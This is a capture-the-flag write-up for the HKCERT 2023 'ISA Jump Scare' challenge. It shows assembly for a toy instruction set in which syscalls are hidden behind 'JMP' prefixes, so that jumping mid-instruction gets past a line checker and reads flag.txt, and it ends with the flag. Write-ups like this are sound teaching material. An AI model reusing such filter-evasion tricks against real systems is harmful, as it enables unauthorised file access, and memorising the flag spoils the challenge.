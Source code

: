 In this challenge we are also provided with a small step-by-step, though it's mostly just pushing in the right direction:
https://hackmd.io/@blackb6a/hkcert-ctf-2023-i-en-a58d115f39feab46#ISA-%E5%A7%8B%E6%96%99%E6%9C%AA%E5%8F%8A--ISA-Jump-Scare-Pwn

We get hinted at using the ability to JMP to the middle of instructions, since the checker only checks for no comments as well as the fact that every line has to start with "JMP ".

So, we have to take the rest from there.

We are provided with this nice "read file" example in the ISA docs: https://hackmd.io/@blackb6a/bauhinia-isa#Example1

Code to read input into 0x410000 (we will write "flag.txt").
```
MOV R8, 0
MOV R1, 0x410000
MOV R2, 100
SYSCALL
```

Code to read file with name that we just put in, and store contents in 0x420000.
```
MOV R8, 3
MOV R1, 0x410000
MOV R2, 0x420000
MOV R3, 100
SYSCALL
```

And to put file output to stdout:
```
MOV R2, R8
MOV R8, 1
MOV R1, 0x420000
SYSCALL
```

Now, we should be able to do this to trick it to run:

```
JMP +4
JMP MOV R8, 0
JMP +4
JMP MOV R1, 0x410000
JMP +4
JMP MOV R2, 100
JMP +4
JMP SYSCALL
JMP +4
JMP MOV R8, 3
JMP +4
JMP MOV R1, 0x410000
JMP +4
JMP MOV R2, 0x420000
JMP +4
JMP MOV R3, 100
JMP +4
JMP SYSCALL
JMP +4
JMP MOV R2, R8
JMP +4
JMP MOV R8, 1
JMP +4
JMP MOV R1, 0x420000
JMP +4
JMP SYSCALL
```

Flag: got! very nice (in Borat voice)

hkcert23{jump_1n70_m1dd13_0f_1n57ruc710n_1s_r34l1y_fun}
